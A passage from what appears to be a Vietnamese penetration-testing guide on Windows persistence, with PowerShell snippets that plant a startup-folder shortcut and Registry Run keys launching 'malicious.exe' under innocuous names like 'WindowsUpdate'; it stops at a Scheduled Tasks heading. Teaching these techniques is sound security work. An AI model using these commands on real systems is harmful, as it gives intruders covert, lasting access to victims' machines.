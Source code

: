 
## 4.5. Persistence Mechanisms

Cơ chế duy trì quyền truy cập (persistence mechanisms) là các kỹ thuật được sử dụng để đảm bảo rằng kẻ tấn công có thể duy trì quyền truy cập vào hệ thống Windows ngay cả sau khi hệ thống được khởi động lại hoặc sau khi người dùng đăng xuất. Trong quá trình kiểm thử thâm nhập, việc thiết lập các cơ chế duy trì quyền truy cập là bước quan trọng để chứng minh tác động của việc xâm nhập.

### Các loại cơ chế duy trì quyền truy cập

#### 1. Startup Folder

Cách đơn giản nhất để duy trì quyền truy cập là đặt shortcut hoặc executable trong thư mục startup. Các file trong thư mục này sẽ được thực thi mỗi khi người dùng đăng nhập.

```powershell
## Thư mục startup của người dùng hiện tại
$userStartup = "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup"

## Thư mục startup cho tất cả người dùng
$allUserStartup = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"

## Tạo shortcut độc hại trong thư mục startup
$WshShell = New-Object -ComObject WScript.Shell
$Shortcut = $WshShell.CreateShortcut("$userStartup\UpdateChecker.lnk")
$Shortcut.TargetPath = "C:\temp\malicious.exe"
$Shortcut.Save()
```

#### 1. Registry Run Keys

Registry Run keys là vị trí phổ biến để các chương trình được thực thi tự động khi Windows khởi động hoặc khi người dùng đăng nhập.

```powershell
## Thêm entry cho người dùng hiện tại
New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "WindowsUpdate" -Value "C:\temp\malicious.exe" -PropertyType String

## Thêm entry cho tất cả người dùng (cần quyền Administrator)
New-ItemProperty -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "WindowsUpdate" -Value "C:\temp\malicious.exe" -PropertyType String

## Các Run keys khác có thể sử dụng
## HKCU:\Software\Microsoft\Windows\CurrentVersion\RunOnce
## HKLM:\Software\Microsoft\Windows\CurrentVersion\RunOnce
## HKLM:\Software\Microsoft\Windows\CurrentVersion\RunServices
## HKLM:\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce
## HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Windows\Run
```

#### 3. Scheduled Tasks

Scheduled tasks là một cách mạnh mẽ để duy trì quyền truy cập và có thể được cấu hình để chạy với quyền system.
